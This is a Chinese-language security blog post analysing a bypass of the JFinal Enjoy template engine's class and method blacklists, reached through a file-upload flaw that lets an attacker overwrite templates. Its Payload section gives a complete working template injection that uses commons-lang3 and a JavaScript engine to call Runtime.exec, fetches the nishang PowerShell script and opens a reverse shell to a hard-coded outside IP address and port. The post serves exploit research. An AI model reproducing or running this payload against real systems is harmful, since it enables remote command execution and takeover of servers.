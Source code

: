 ```yaml
---
typora-root-url: ../../../static
title: "JFinal Enjoy Template Engine命令执行绕过分析"
date: 2021-03-07T22:07:36+08:00
draft: false
categories: ["security"]
---
```


## 分析
上周代码审计一个系统，发现系统是基于JFinal框架，是一个国产比较出名的框架（还挺好用），JFinal默认不支持直接访问jsp，系统使用的官方的Enjoy模板引擎。

当时发现了一个文件上传漏洞，可以覆盖系统中的存在的模板文件，于是想通过模板引擎执行命令，但是发现Enjoy存在一些安全防护，如下所示，是Enjoy的一些黑名单：

类黑名单：

![Enjoy类黑名单][p1]

方法黑名单：

![Enjoy方法黑名单][p2]

当时查看官方文档，发现Enjoy模板引擎，只能直接调用Java中的静态方法，如果想调用实例方法，只有配置了sharedObject或者render模板视图之前set了Object才能调用对象的实例方法，不能直接new一个对象来调用；于是现在就是根据如下条件，来达到命令执行的目的：

- 只能调用公共静态方法；
- 不能调用类黑名单中的类；
- 不能调用方法黑名单中的方法；

不使用new的方式，常用的依赖于JDK来达到命令执行的方法，无非就是通过反射或类加载器来实例化ProcessBuilder对象来执行命令，或者通过反射调用java.lang.Runtime的exec()方法来执行命令；但是无论是通过反射还是类加载器，经过我大量测试，根本绕不过黑名单（不仅存在类名单，还存在方法黑名单，实在是难顶）。

最终，突然灵机一闪！我为何要使用JDK中的API呢！！！于是我直接 **查看系统中使用了哪些第三方依赖** ，发现使用了commons-lang3，好家伙，就是你了！这个工具包中存在很多类似ClassUtils等工具，完全可以使用这些工具类来绕过黑名单。

## Payload
这里提供我写的一个利用commons-lang3绕过的payload，其中一些说明如下：

- 利用 `java.net.URLClassLoader` 绕过 `ClassLoader` 黑名单；
- 利用 `ScriptEngineManager` 获取JS脚本引擎，通过 `eval()` 动态执行 `java.lang.Runtime.getRuntime().exec()` ,来执行命令；

以下是完整的payload（作用是windows下反弹powershell）： 

	#set(x=(java.net.URLClassLoader::getSystemClassLoader()).loadClass("javax.script.ScriptEngineManager"))
	#set(payload="powershell -nop -exec bypass -c \\"IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp  -Reverse -IPAddress 49.234.105.98 -Port 7777\\"")
	#set(poc="java.lang.Runtime.getRuntime().exec(\""+payload+"\")")
	#((org.apache.commons.lang3.reflect.ConstructorUtils::invokeConstructor(x)).getEngineByExtension("js").eval(poc))









[p1]:/media/2021-03-07-1.png
[p2]:/media/2021-03-07-2.png